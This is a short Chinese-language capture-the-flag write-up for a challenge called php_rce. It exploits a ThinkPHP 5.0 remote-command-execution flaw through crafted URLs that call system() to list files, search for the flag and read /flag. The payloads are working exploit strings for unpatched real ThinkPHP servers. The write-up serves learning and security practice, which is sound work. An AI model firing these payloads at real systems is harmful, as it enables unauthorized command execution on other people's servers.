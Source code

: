 # php_rce
## 题目描述
暂无  

## 思路
点开题目链接：  
http://220.249.52.133:42857  
![avatar](./picture/php_rce_1.png)  

根据页面，应该是 ThinkPHP V5.0 的漏洞。搜了一下，果然有。根据漏洞构造一个 payload，来查看目录下都有什么文件：  
http://220.249.52.133:42857/?s=index/\think\App/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=dir  
![avatar](./picture/php_rce_2.png)  

似乎没有想要的东西，再构造一个，看看有没有和 flag 相关的文件：  
http://220.249.52.133:42857/?s=index/\think\App/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=find / -name "*flag"  
![avatar](./picture/php_rce_3.png)  

不错，直接查看这个文件：  
http://220.249.52.133:42857/?s=index/\think\App/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat /flag  
![avatar](./picture/php_rce_4.png)  
得到 flag。  

## 相关链接
ThinkPHP 5.x远程命令执行漏洞分析与复现：  
https://www.cnblogs.com/backlion/p/10106676.html

